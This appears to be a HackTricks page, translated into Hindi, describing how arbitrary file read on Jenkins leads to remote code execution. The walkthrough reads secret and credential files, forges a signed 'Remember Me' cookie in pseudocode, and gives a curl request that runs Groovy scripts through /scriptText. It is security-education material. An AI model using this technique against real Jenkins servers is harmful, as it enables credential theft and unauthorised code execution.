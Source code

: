 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

इस ब्लॉग पोस्ट में Jenkins में एक स्थानीय फ़ाइल समावेशन भेद्यता को RCE में बदलने का एक शानदार तरीका पाया जा सकता है: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

यह एक AI द्वारा बनाई गई संक्षेप है उस पोस्ट के भाग की जहां एक मनमाना कुकी का निर्माण RCE प्राप्त करने के लिए किया जाता है, जब तक कि मेरे पास अपने स्वयं के संक्षेप को बनाने का समय नहीं है:

### हमले की पूर्वापेक्षाएँ

* **विशेषता आवश्यकता:** "Remember me" सक्षम होना चाहिए (डिफ़ॉल्ट सेटिंग)।
* **एक्सेस स्तर:** हमलावर को समग्र/पढ़ने की अनुमति की आवश्यकता है।
* **गुप्त पहुंच:** प्रमुख फ़ाइलों से बाइनरी और पाठ्य सामग्री पढ़ने की क्षमता।

### विस्तृत शोषण प्रक्रिया

#### चरण 1: डेटा संग्रहण

**उपयोगकर्ता जानकारी पुनर्प्राप्ति**

* प्रत्येक उपयोगकर्ता के लिए `$JENKINS_HOME/users/*.xml` से उपयोगकर्ता कॉन्फ़िगरेशन और रहस्यों तक पहुंच प्राप्त करें:
* **उपयोगकर्ता नाम**
* **उपयोगकर्ता बीज**
* **टाइमस्टैम्प**
* **पासवर्ड हैश**

**गुप्त कुंजी निष्कर्षण**

* कुकी पर हस्ताक्षर करने के लिए उपयोग की जाने वाली क्रिप्टोग्राफिक कुंजियों को निकालें:
* **गुप्त कुंजी:** `$JENKINS_HOME/secret.key`
* **मास्टर कुंजी:** `$JENKINS_HOME/secrets/master.key`
* **MAC कुंजी फ़ाइल:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### चरण 2: कुकी निर्माण

**टोकन तैयारी**

*   **टोकन समाप्ति समय की गणना करें:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Adds one hour to current time
```
{% endcode %}
*   **टोकन के लिए डेटा को संयोजित करें:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC कुंजी डिक्रिप्शन**

*   **MAC कुंजी फ़ाइल को डिक्रिप्ट करें:**

```javascript
key = toAes128Key(masterKey)  // Convert master key to AES128 key format
decrypted = AES.decrypt(macFile, key)  // Decrypt the .mac file
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**हस्ताक्षर गणना**

*   **HMAC SHA256 की गणना करें:**

```javascript
mac = HmacSHA256(token, macKey)  // Compute HMAC using the token and MAC key
tokenSignature = bytesToHexString(mac)  // Convert the MAC to a hexadecimal string
```

**कुकी एन्कोडिंग**

*   **अंतिम कुकी उत्पन्न करें:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 encode the cookie data
```
{% endcode %}

#### चरण 3: कोड निष्पादन

**सत्र प्रमाणीकरण**

* **CSRF और सत्र टोकन प्राप्त करें:**
* `/crumbIssuer/api/json` पर एक अनुरोध करें ताकि `Jenkins-Crumb` प्राप्त किया जा सके।
* प्रतिक्रिया से `JSESSIONID` को कैप्चर करें, जिसका उपयोग याद रखने वाली कुकी के साथ किया जाएगा।

**कमांड निष्पादन अनुरोध**

*   **Groovy स्क्रिप्ट के साथ POST अनुरोध भेजें:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy स्क्रिप्ट का उपयोग सिस्टम-स्तरीय कमांड या Jenkins वातावरण के भीतर अन्य संचालन को निष्पादित करने के लिए किया जा सकता है।

उदाहरण curl कमांड यह प्रदर्शित करता है कि आवश्यक हेडर और कुकी के साथ Jenkins को अनुरोध कैसे किया जाए ताकि मनमाना कोड सुरक्षित रूप से निष्पादित किया जा सके।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
